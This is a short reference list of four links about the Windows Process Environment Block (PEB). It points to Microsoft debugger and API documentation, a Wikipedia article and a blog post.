- https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/-peb
- https://www.cnblogs.com/binlmmhc/p/6501545.html
- https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb
- https://en.wikipedia.org/wiki/Process_Environment_Block